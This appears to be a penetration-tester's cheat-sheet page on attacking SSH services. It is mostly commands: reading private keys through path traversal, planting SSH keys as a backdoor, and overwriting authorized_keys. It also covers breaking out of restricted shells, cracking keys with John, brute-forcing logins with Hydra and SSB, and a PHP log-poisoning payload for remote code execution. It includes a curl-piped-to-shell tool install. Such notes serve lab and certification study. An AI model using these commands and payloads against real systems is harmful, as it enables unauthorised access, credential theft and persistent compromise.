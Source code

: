```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have valid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

<br/>
#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
<br />
```echo os.system("/bin/bash")```
<br />
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR 
ssh user@$IP "/bin/sh"```

<br />
#### SSH Access Denied - pty restricted
- If you can read the 'authorized_keys' file, you may see there is a 'no-pty' option
- We may be able to replace this file if we have an SSH key for the target user using <b>scp</b> with a public key. 
Copy the authorised key, remove the 'no-pty' option  and then place it back on the target, overwriting the blocking file

``` scp -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```

> This uses an id_rsa key we have previously obtained for a user called 'dude' and replaces authorized_keys with our modified file

Note: If you are not allowed to produce output on the target, use the -O flag

``` scp -O  -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```


<br />
#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />
#### Command Reference
<b> Search for files containing SSH Keys:</b> <br />
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*``` <br />
```grep -ir "BEGIN DSA PRIVATE KEY" /*``` <br />
<b> SSH with id_rsa </b> <br />
``` ssh -i id_rsa user@$IP ``` <br />
<b> Crack id_rsa with John (SSH2John) </b> <br />
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```
<b> SSH Keygen & Back Door (post exploitation) </b> <br />
Generate a new SSH key pair with: <br />
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory. <br />
Connect with: <br />
```ssh -i new-key-name user@$IP```

<br />
### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />
#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />
###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
